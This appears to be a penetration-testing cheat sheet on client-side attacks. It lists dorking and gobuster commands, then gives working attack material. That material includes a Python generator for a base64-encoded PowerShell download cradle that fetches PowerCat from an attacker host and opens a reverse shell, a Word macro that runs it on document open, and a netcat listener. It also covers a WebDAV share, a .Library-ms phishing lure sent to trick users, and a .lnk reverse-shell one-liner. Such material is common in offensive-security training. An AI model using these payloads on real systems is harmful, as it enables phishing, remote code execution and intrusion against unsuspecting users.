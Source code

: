 # Client-side attacks

## Dorking

Passive: `site:www.site-to-hack.com filetype:pdf` \
Gobuster: 
- `gobuster dir -x pdf -u $TargetIp -w /usr/share/wordlist/dirb/common.txt`
- `gobuster dir -x pdf -u $TargetIp -w /usr/share/wordlist/dirb/big.txt`
Exiftool: `exiftool -a -u somefile.pdf`

## Macros

### Word

Start a listener:
```
kali$ nc -lnvp $AttackerPort
```
base64 encode a PowerShell reverse shell, or a download cradle for [PowerCat](https://github.com/besimorhino/powercat):
```
import base64

text = "IEX(New-Object System.Net.WebClient).DownloadString('http://$AttackerIp/powercat.ps1');powercat -c $AttackerIp -p $AttackerPort -e powershell"

payload = base64.b64encode(bytes(text, 'utf-16-le')).decode('utf-8') # WARNING: Windows uses UTF-16-LE encoding...

print("PowerCat cradle:", text)
print("Payload, base64 utf-16-le encoded:", payload)

n = 50 

print("Str = \"powershell.exe -nop -w hidden -e \"")
for i in range(0, len(payload), n):
    print("Str = Str + " + '"' + payload[i:i+n] + '"')
```
embed it in Word macro:
```
Sub AutoOpen()
  MyMacro
End Sub
Sub Document_Open()
  MyMacro
End Sub
Sub MyMacro()
  '-----
  'CreateObject("Wscript.Shell").Run "powershell"
  '-----
  Dim Str As String
  Str = "powershell.exe -nop -w hidden -enc "
  Str += Str + "some"
  Str += Str + "long"
  Str += Str + "base64"
  Str += Str + "utf-16-le"
  Str += Str + "string"
  CreateObject("Wscript.Shell").Run Str
End Sub
```
and start an http server:
```
kali$ python3 -m http.server 80
```

### Library files

#### Webdav shares

Install and run a Webdav share:
```
kali$ sudo apt-get install python3-wsgidav
kali$ wsgidav --host=0.0.0.0 --port=80 --auth=anonymous --root /path/to/webdav/share/
```

#### Extension `.Library-ms`

Make a `myautomatedfakeinstalltofoolsomeuser.Library-ms` file pointing to the Webdav share on Kali, send it by mail and tell the user to click it.
In the Webdav share, prepare a reverse shell. For example with [PowerCat](https://raw.githubusercontent.com/besimorhino/powercat/master/powercat.ps1), make a `.lnk` file:
```
powershell.exe -c "IEX(New-Object System.Net.WebClient).DownloadString('http://myip:myhttpport/powercat.ps1');powercat -c myip -p myncport -e powershell"
```
Instead of sending the Library file by email, it can be share by Samba:
```
smbclient //$TargetIp/$TargetSharedDirectory -c 'put myautomatedfakeinstalltofoolsomeuser.Library-ms.Library-ms'
```


